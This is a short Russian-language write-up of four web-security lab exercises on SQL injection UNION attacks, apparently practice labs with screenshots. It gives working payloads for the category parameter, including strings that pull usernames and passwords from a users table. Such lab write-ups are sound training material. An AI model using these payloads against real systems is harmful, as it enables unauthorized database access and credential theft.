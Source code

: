  Lab: SQL injection UNION attack, determining the number of columns returned by the query 
 
 Изменяем category, чтобы добавить дополнительный столбец, содержащий нулевое значение:'+UNION+SELECT+NULL,NULL--
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_1.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_2.PNG)
 
 Lab: SQL injection UNION attack, finding a column containing text
 
 Меняем значение category '+UNION+SELECT+NULL-- , Происходит ошибка:
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_1.PNG)
Меняем значение category на '+UNION+SELECT+NULL,NULL,NULL-- 
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_2.PNG)
Работает)
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_3.PNG)
 
 Lab: SQL injection UNION attack, retrieving data from other tables
 
 Убеждаемся в том, что запрос возвращает два столбца, оба из которых содержат текст, используя полезную нагрузку , как в следующем в параметре категории: '+UNION+SELECT+'abc','def'-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_1.PNG)
 Используйте следующую полезную нагрузку для извлечения содержимого usersтаблицы:'+UNION+SELECT+username,+password+FROM+users-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_2.PNG)
 Проверяем
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_3.PNG)
 Работает)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_4.PNG)
 
 Lab: SQL injection UNION attack, retrieving multiple values in a single column
 
 Убеждаемся, что запрос возвращает два столбца, только один из которых содержит текст, используя полезную нагрузку, подобную следующей в categoryпараметре:'+UNION+SELECT+NULL,'abc'-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_1.PNG)
 Используйте следующую полезную нагрузку для извлечения содержимого usersтаблицы:'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_2.PNG)
 Проверяем
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_3.PNG)
 Работает)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_4.PNG)
 
